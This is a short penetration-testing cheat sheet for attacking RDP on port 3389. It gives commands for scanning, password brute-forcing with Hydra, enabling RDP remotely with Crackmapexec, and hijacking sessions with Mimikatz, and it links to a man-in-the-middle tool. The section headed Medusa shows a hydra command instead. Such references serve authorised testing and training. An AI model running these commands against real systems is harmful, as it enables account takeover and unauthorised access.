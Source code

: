 # Port 3389 | RDP

## Enumeration

### Nmap

```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 <IP>
```

## Bruteforce

Brute forcing can easily lock user accounts. If possible enumerate the domain password policy before proceeding.

### Hydra

```bash
hydra -L <User/s.txt> -P <Password/s.txt> rdp://<IP>
```

### Medusa

```bash
hydra -t 4  -l <User> -P <Password/s.txt> rdp://<IP>
```

## Connecting

### Crackmapexec

Requires administrative privileges, enables RDP on the target host.

```bash
crackmapexec smb '<IP>' -u '<User>' -p '<Password>' -M rdp -o ACTION=enable # Enable RDP
```

### rdesktop

```bash
rdesktop -u <Username> <IP>
rdesktop -d <Domain> -u <Username> -p <Password> <IP>
```

### xfreerdp

```bash
xfreerdp /v:'<IP>' /u:'<User>' /p:'<Password>'
xfreerdp /v:'<IP>' /u:'<User>' /p:'<Password>' +clipboard

#Maps specified folder on attacking machine to RDP host
xfreerdp /v:'<IP>' /u:'<User>' /p:'<Password>' +clipboard /dynamic-resolution /drive:/usr/share/windows-resources,share
```

## **Hijacking**

This method is not stealthy and will disconnect a users active terminal service session. However, you will also be able to connect to a disconnected session which could be stealthier.&#x20;

This method also requires privileges as SYSTEM on the terminal server host.

### **Mimikatz**

```powershell
Invoke-Mimikatz -Command '"ts::sessions"'
```

![](../../.gitbook/assets/mimikatz-ts\_sessions.png)

Connect to the terminal services session.&#x20;

```powershell
Invoke-Mimikatz -Command '"token::elevate" "ts::remote /id:4"'
```

## **Man-in-the-Middle**

[SETH](https://github.com/SySS-Research/Seth) can be used to perform Man-in-the-Middle attacks over RDP.&#x20;

{% content-ref url="../everything-active-directory/adversary-in-the-middle/rdp-mitm.md" %}
[rdp-mitm.md](../everything-active-directory/adversary-in-the-middle/rdp-mitm.md)
{% endcontent-ref %}



